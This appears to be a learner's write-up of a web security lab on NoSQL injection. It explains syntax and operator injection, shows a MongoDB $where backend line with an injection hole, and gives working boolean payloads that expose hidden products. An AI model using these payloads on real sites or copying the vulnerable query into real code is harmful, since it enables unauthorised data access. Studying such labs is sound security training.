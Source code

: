 There are two different types of NoSQL injection:
 - Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
 - Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.

### Lab: Detecting NoSQL injection
There's a vulnerable to nosqli endpoint:
```bash
GET /filter?category=Accessories HTTP/1.1
```
So we try:
```bash
GET /filter?category=Accessories' 
```
And we get back the err:
```
Command failed with error 139 (JSInterpreterFailure): &apos;SyntaxError: unterminated string literal :
functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25
&apos; on server 127.0.0.1:27017. The full response is {&quot;ok&quot;: 0.0, &quot;errmsg&quot;: &quot;SyntaxError: unterminated string literal :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n&quot;, &quot;code&quot;: 139, &quot;codeName&quot;: &quot;JSInterpreterFailure&quot;}
```
On the backend they have something like:
```bash
const result = await productMongooseModel.find({ $where: `this.category === '${req.query.category}'`})
```
That `$where` from official mongodb docs:
```
Use the $where operator to pass either a string containing a JavaScript expression or a full JavaScript function to the query system
```
To solve the lab, we need to perform a NoSQL injection attack that causes the application to display unreleased products. 

Therefore we check if we can inject boolean conditions to change the response
(don't forget to url encode, here is just shown in this way for the sake of readability)
```
GET /filter?category=Gifts' && 0 && 'x
```
Before the injection GET /filter?category=Gifts retrived 3 products but with the condition `&& 0` mongo returns `false` for every item in the collection and as a result we see no products in the response.

Later if we change to:
```
GET /filter?category=Gifts' && 1 && 'x
```
We see our 3 products again

So to see all products let's modify to the following (don't forget to url-encode):
```
GET /filter?category=Gifts' || 1 || 'x
```
And we see more than 3 products (we see all of them)
